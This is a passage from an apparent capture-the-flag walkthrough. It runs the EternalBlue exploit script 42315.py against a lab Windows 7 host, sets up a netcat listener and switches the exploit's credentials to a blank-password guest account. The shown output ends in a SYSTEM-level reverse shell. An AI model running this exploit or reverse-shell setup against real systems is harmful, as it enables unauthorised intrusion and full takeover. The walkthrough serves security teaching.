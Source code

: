 Next, we start a netcat listener by executing `nc -lvnp 443`. Then, we launch the exploit by executing `python 42315.py 10.10.10.40`. Note that we use `python` instead of `python3` since this exploit was written in python2 and not python3.  

{% highlight none linenos %}
kali@kali:/tmp/x$ @@python 42315.py 10.10.10.40@@
Target OS: Windows 7 Professional 7601 Service Pack 1
@@@Not found accessible named pipe@@@
Done
kali@kali:/tmp/x$
{% endhighlight %}

As can be seen above, the exploit fails to find a named pipe. We can try to add more named pipes to the script since it has a hard coded list of named pipes to try. Another alternative is to provide the exploit with credentials using the two variables named "USERNAME" and "PASSWORD" which we saw [earlier]({{path}}#USERNAME). Some Windows systems allow SMB access for anonymous users using a guest account with a blank password. As such, we could try to change the value of the `USERNAME` parameter as shown below.

{% highlight none linenos %}
USERNAME = '@@@guest@@@'
PASSWORD = ''
{% endhighlight %}

Once we have specified a username in the exploit, we reexecute it.

{% highlight none linenos %}
kali@kali:/tmp/x$ @@python 42315.py 10.10.10.40@@
Target OS: Windows 7 Professional 7601 Service Pack 1
Using named pipe: samr
Target is 64 bit
Got frag size: 0x10
GROOM_POOL_SIZE: 0x5030
BRIDE_TRANS_SIZE: 0xfa0
CONNECTION: 0xfffffa8001995980
SESSION: 0xfffff8a003d42aa0
FLINK: 0xfffff8a004190088
InParam: 0xfffff8a00418a15c
MID: 0x1e03
success controlling groom transaction
modify trans1 struct for arbitrary read/write
make this SMB session to be SYSTEM
overwriting session security context
Opening SVCManager on 10.10.10.40.....
Creating service OtIh.....
Starting service OtIh.....
The NETBIOS connection with the remote host timed out.
Removing service OtIh.....
ServiceExec Error on: 10.10.10.40
nca_s_proto_error
Done
kali@kali:/tmp/x$ 
{% endhighlight %}

![system](/assets/{{ imgDir }}/system.png)

After a couple of seconds, our listener receives a connection from the target and we obtain a shell as `SYSTEM`!
 